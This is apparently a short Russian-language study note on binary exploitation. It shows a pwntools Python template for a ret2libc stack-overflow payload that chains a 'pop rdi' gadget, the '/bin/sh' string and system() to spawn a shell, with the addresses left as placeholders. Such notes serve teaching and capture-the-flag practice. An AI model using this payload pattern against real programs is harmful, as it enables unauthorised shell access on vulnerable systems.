 
> [!example] 
> Пусть мы знаем адрес `SYSTEM`, адрес строки `/bin/sh`, базу `libc`, а также нашли `gadget`.

```python
from pwn import *

binsh = 0xNNNNN
libcbase = 0xNNNNN
sys = 0xNNNNN
poprdi = 0xNNNNNN

payload = cyclic(M) # M - overflow stack + rbp
payload += p64(poprdi)
payload += p64(libcbase + binsh)
payload += p64(libcbase + sys)

```

